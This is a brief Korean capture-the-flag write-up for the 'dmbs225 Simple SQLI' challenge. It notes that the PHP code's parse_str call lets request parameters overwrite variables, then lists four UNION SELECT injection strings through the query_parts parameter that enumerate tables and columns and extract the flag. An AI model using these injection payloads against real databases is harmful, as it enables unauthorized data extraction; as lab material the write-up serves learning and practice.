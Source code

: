 # dmbs225\(Simple SQLI\)

1. view-source를 눌러 확인한다.
2. php코드를 보니 parse\_str함수가 존재한다.

   이는 인자값으로 넘어온 모든 값을 변수로 바꾸기에

   매우 취약한 함수이다.

3. 이를 통해 query\_parts에 SQLI를 이용해 공격한다. 

```css
1. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,3,4
위 과정을 통해 SQLI의 유효성을 확인한다.

2. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,table_name,4%20from%20information_schema.tables#
위 과정을 통해 flag가 있어보이는 테이블을 찾는다.

3. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,column_name,4%20from%20information_schema.columns%20where%20table_name='flag테이블'#
위 과정을 통해 flag가 있는 테이블의 컬럼들을 확인한다.

4. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,flag컬럼,4%20from%20flag테이블#
위 과정을 통해 flag값을 얻어낼 수 있다.
```

